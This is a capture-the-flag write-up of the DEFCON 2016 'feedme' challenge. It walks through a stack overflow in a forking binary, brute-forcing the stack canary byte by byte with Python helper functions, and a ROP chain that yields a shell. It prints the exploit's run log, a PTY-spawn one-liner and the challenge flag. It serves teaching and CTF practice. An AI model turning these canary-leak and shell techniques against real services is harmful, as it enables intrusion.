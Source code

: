 +++
title = "DEFCON CTF 2016 - feedme"
authors = ["hugsy"]
date = 2016-05-23T00:00:00Z
updated = 2016-05-23T00:00:00Z
aliases = ["/posts/2016/05/23/defcon-ctf-2016-feedme.html"]

[taxonomies]
categories = ["ctf"]
tags = ["pwn","defcon-2016","x86","brop"]
+++

### Info ###

The vulnerable file was given with the instructions:

    :::text
    Don't forget to feed me
    http://www.scs.stanford.edu/brop/

Here are some info given by `gef`:
```bash
gef➤  !file ./feedme
./feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
gef➤  checksec
[+] checksec for '/home/vagrant/feedme'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

`feedme` is statically linked x86 binary that forks and then expects "to be fed"
with some input. Pretty simple, right?


### Vulnerability ###

The vulnerability in this case is easy to spot:
```bash
gef➤  c
Continuing.
[New process 1349]
FEED ME!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 41414141414141414141414141414141...
*** stack smashing detected ***: /home/vagrant/feedme terminated

Program received signal SIGABRT, Aborted.
[Switching to process 1349]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$eax     0x00000000 $ebx     0x00000545 $ecx     0x00000545 $edx     0x00000006 $esp     0xffffd388 $ebp     0xffffd5f8
$esi     0xffffd518 $edi     0xffffd434 $eip     0xf7ffdba0 $cs      0x00000023 $ss      0x0000002b $ds      0x0000002b
$es      0x0000002b $fs      0x00000000 $gs      0x00000063 $eflags  [ IF ]
Flags: [ carry  parity  adjust  zero  sign  trap  INTERRUPT  direction  overflow  resume  virtualx86  identification ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0xffffd388│+0x00: 0xffffd5f8 → 0xffffd678 → 0x41414141		← $sp
0xffffd38c│+0x04: 0x6
0xffffd390│+0x08: 0x545
0xffffd394│+0x0c: 0x0807bed7 → cmp eax,0xfffff000
0xffffd398│+0x10: "A"
0xffffd39c│+0x14: 0x0804e3e1 → mov edx,DWORD PTR gs:0x8
0xffffd3a0│+0x18: 0x6
0xffffd3a4│+0x1c: 0xffffd3b4 → " "
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386]──
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9c	 <__kernel_vsyscall+12>  nop
0xf7ffdb9d	 <__kernel_vsyscall+13>  nop
0xf7ffdb9e	 <__kernel_vsyscall+14>  int    0x80
0xf7ffdba0	 <__kernel_vsyscall+16>  pop    ebp 		 ← $pc
[...]
```

The interesting function is at 0x08049036:


{{ img(src="https://i.imgur.com/WLAWsAW.png" title="do-feedme") }}

This function basically will:

   1. `0x8049053-0x8049058`: call the `xread_char()` function, which will read 1
      character from stdin and store it in the stack variable (called `len`);
   1. `0x804905F-0x8049069`: use this variable as the number of byte to read from stdin in the call to
      `xread_buffer()`, and store the result in the stack buffer allocated,
      called `buf`, whose size is 0x20 bytes;
   1. `0x804907E-0x8049084`: copy the `buf` content to a bigger array (0x400 bytes) located at the
      address 0x80EBF40.
   1. `0x804909D-0x80490A7`check if the `canary` variable has been tampered with, if so leave in
      error.

So we have a traditional stack buffer overflow, where we need to bypass the
canary token.


### Exploitation ###

Before continuing, I would recommend reading the paper & slides related to the
[blind-rop technique](http://www.scs.stanford.edu/brop/) we're going to be using.

Since the child process is being forked, we know that the parent and child are
identical in every way, including the memory mapping and the canary token. So
the idea for this exploitation is to brute-force one-by-one all the bytes from the
canary variable in stack, with the following binary logic: overwrite one byte of
the canary with a value, `X`. If we have a crash, it will mean that the canary is
corrupted, and therefore `X` is not valid. If it does not crash, then `X` is
valid, and we can reproduce this action with the following canary byte
(this is very analog to the exploitation of a colour-blind SQL
injection exploitation).

So we have this buffer:

```bash
| A A A A A A A A A A A A A A A| 1 2 3 4|
```

If we attempt to corrupt the first byte of the canary with a wrong value, our
process will be killed immediately and we will receive the message ("Child exit"):

```bash
| A A A A A A A A A A A A A A A| X 2 3 4|
```

But when the value for the byte is valid, the program will continue its
execution at 0x080490DF and display a message ("YUM, got...").
```bash
080490DF mov     [esp+4], eax
080490E3 mov     dword ptr [esp], offset aYumGotDBytes ; "YUM, got %d bytes!\n"
080490EA call    xprintf
```

So leaking one byte can be summed with the following Python code:

```python
def leak_canary_byte(s, prefix, off):
    for i in range(256):
        p = 'A'*32 + prefix + chr(i)
        xsend(s, p, len(p) )
        res = s.read_until("\n")
        res2 = s.read_until("\n")
        if res2 != "Child exit.\n":      # if we don't get the "Child exit." message, then our current value is correct
            return chr(i)
    return None
```

Once we have the value of the first byte, we resume the same operation with the
2nd and so on, until having the 4 bytes forming the canary.

```python
def leak_canary(s):
    can = ""
    for i in range(4):
        b = leak_canary_byte(s, can, i)
        if b is None:
            err("bail")
            exit(1)
        ok("Found canary[%d]=%.2x"%(i, ord(b)))
        can += b
    return can
```


We know control the execution flow without triggering the `canary_fail()`
function. All we need to do is build the shellcode using regular ROP. Since the
binary is statically compiled, we have more gadgets than we need.

So wrap this all up in a
[final exploit](https://gist.github.com/hugsy/0f196cfb8c62a4c56fdbc424cb7883bf)
and you have code execution:

```bash
/ $ ./feedme.py                                                                                                                                                                             [18:58]
[+] Connected to 172.28.128.4:4092
[+] Leaking canary using BROP
[+] Found canary[0]=00
[+] Found canary[1]=0c
[+] Found canary[2]=77
[+] Found canary[3]=9a
[+] Using canary '0x9a770c00'
[+] Building shellcode
[+] Sending shellcode
[+] Switching to interactive...
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"   '
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
You ran out of time, closing!
```

And find the flag `The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
